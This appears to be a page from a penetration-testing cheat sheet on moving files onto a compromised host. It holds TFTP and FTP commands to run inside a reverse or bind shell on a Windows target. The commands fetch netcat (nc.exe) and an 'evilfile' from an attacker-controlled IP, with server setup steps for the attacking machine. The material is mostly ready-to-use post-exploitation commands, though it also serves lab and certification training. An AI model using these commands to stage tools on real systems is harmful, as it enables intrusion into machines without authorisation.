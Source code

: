 ## File Transfers
#### TFTP UDP Transfer
```
# Create directory to serve files
mkdir /tftp

# Start atftpd daemon and listen on UDP port 69 using /tftp as root
atftpd --daemon --port 69 /tftp

# Copy file to share to host directory
cp /usr/share/windows-binaries/nc.exe /tftp/

# In your reverse/bind shell on the target machine, change 10.11.1.140 to attacking ip
tftp -i 10.11.1.140 GET nc.exe
```
---
#### FTP File Transfer
On attacking machine, setup an ftp server
`apt-get install pure-ftpd`

Download and run the following setup file, it will create an ftp user 'bedford'
[setup-ftp](/setup-ftp)

Change user permissions, run file and set password on request
`chmod 755`
`./setup-ftp`

Copy and paste the following code into your Windows target bind/reverse shell
```
echo open *ATTACKINGIP* 21> ftp.txt
echo user bedford>> ftp.txt
echo *PASSWORD*>> ftp.txt
echo bin>> ftp.txt
echo GET evilfile.txt>> ftp.txt
echo bye>> ftp.txt
```
Now in your Windows bind/reverse shell run the ftp.txt file
`ftp -v -n -s:ftp.txt`
---


